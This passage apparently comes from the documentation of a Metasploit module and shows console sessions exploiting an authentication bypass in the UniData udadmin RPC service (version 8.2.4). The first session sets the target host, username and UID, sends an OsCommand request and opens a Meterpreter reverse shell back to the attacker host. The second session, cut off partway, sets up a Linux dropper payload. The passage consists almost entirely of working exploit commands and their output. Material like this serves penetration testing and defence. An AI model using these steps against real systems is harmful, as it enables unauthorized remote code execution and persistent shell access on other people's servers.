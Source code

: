 ```
msf6 > use exploit/linux/misc/unidata_udadmin_auth_bypass
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp

msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set LHOST ens160
LHOST => ens160

msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set RHOST 10.0.0.198
RHOST => 10.0.0.198

msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set UNIDATA_VERSION 8.2.4
[-] Unknown datastore option: UNIDATA_VERSION.

msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set VERBOSE true
VERBOSE => true

msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set UNIRPC_USERNAME ron
UNIRPC_USERNAME => ron

msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set UNIRPC_UID 1000
UNIRPC_UID => 1000

msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > exploit

[*] Started reverse TCP handler on 10.0.0.227:4444 
[*] 10.0.0.198:31438 - Running automatic check ("set AutoCheck false" to disable)
[*] 10.0.0.198:31438 - Trying to get version number from service defcs...
[*] 10.0.0.198:31438 - Detected UniRPC version 8.2.4 is running
[!] 10.0.0.198:31438 - The service is running, but could not be validated.
[*] 10.0.0.198:31438 - Connecting to UniRPC endpoint udadmin
[*] 10.0.0.198:31438 - Authenticating to RPC service as :local: / ron:1000:1000
[*] 10.0.0.198:31438 - Sending OsCommand request
[*] Sending stage (24772 bytes) to 10.0.0.198
[*] Meterpreter session 2 opened (10.0.0.227:4444 -> 10.0.0.198:54562) at 2023-04-11 09:39:14 -0700

meterpreter > getuid
Server username: ron
```

### Version 8.2.4 as root, with unix dropper target

```
msf6 > use exploit/linux/misc/unidata_udadmin_auth_bypass
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp

msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Unix Command
    1   Linux Dropper


msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set TARGET 1
TARGET => 1

msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set PAYLOAD linux/x64/meterpreter/reverse_tcp 
PAYLOAD => linux/x64/meterpreter/reverse_tcp

msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set LHOST ens160
```